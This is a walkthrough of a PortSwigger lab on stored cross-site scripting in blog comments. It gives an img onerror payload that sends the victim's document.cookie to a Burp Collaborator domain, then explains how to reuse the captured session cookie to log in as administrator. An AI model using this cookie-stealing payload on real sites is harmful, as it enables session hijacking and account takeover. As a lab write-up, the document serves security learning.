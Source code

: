 ## Lab Description :


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2111f083-5fc7-4a9e-be03-80e7a41c76eb)


## Solution :

From what I read on the lab’s description, the vulnerability is in the blog comments function. So, let’s take a look at the comment function.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a8715b70-04e9-4e01-920a-89522c4d1178)

Let’s check if either of them is vulnerable to XSS by using a simple payload:

> javascript code to make HTTP request to external domain.

>  javascript has methods and API to make HTTP requests.

 So the payload will be
 
 ```js
<img src=x onerror=this.src='http://domain/?'+document.cookie;>
```

we willl use `burp collaborator` to generate a domain name for us then we that domain name in our xss payload.

Go to burp  collaborator window and copy the  collaborator payload ie our domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/52294b9c-f23d-4228-a3b8-38960fcca153)

Then go and press `poll now` collaborator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b953e58a-fbcb-43c4-aa20-cc19dc70bf03)

As we see there are a few http interactions i choose any one of the http requests and click on `request to collaborator` tab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f368385-5ef2-46c3-bf94-946f10dbcfb7)

Looking at the get request we see a `url` parameter called `session` and its value  is the session cookie of the victim user which was captured and sent to the burp collaborator by our xss payload.

session cookie value=`W6HvkaYQcVhLZ45KZ93P8oZSL0OEqd9g`

Lets copy the session value and and go to the web browser and turn on `burop intercept` and then click on my account.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4d68af5c-a725-4f15-a610-a3020229b658)

change the coookie value with session cookie value what we have.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/811e931e-fb8b-4c44-a662-5893660bf6af)

Now we can see the web application saying that your `username is:administrator`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c2eb2e2-9340-46f5-831f-f077fb597377)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8e0313d0-2257-4705-a407-d051e4b9476e)





